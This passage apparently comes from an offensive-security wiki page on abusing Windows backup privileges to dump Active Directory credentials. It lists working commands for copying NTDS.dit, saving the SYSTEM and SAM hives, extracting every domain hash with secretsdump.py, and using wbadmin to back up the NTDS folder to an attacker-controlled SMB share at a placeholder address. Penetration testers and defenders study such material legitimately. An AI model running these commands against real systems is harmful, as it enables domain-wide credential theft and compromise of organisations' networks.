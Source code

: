 As in the local attack, you can now copy the privileged file **`NTDS.dit`**:

```
Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit
```

Another way to copy files is using [**robocopy**](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/robocopy)**:**

```
robocopy /B F:\Windows\NTDS .\ntds ntds.dit
```

Then, you can easily **steal** the **SYSTEM** and **SAM**:

```
reg save HKLM\SYSTEM SYSTEM.SAV
reg save HKLM\SAM SAM.SAV
```

Finally you can **get all the hashes** from the **`NTDS.dit`**:

```shell-session
secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL
```

#### Using wbadmin.exe to dump NTDS.dit

Using wbadmin.exe is very similar to diskshadow.exe, the wbadmin.exe utility is a command line utility built into Windows, since Windows Vista/Server 2008. 

Before using it, you need to [**setup ntfs filesystem for smb server**](https://gist.github.com/manesec/9e0e8000446b966d0f0ef74000829801) on the attacker machine.

When you finished to setup smb server, you need to cache the smb credential on target machine:
```
# cache the smb credential.
net use X: \\<AttackIP>\sharename /user:smbuser password

# check if working.
dir X:\
```

If no error, use wbadmin.exe to exploit it: 

```
# Start backup the system.
# In here, no need to use `X:\`, just using `\\<AttackIP>\sharename` should be ok.
echo "Y" | wbadmin start backup -backuptarget:\\<AttackIP>\sharename -include:c:\windows\ntds

# Look at the backup version to get time.
wbadmin get versions

# Restore the version to dump ntds.dit.
echo "Y" | wbadmin start recovery -version:10/09/2023-23:48 -itemtype:file -items:c:\windows\ntds\ntds.dit -recoverytarget:C:\ -notrestoreacl
```
If it successful, it will dump into `C:\ntds.dit`.
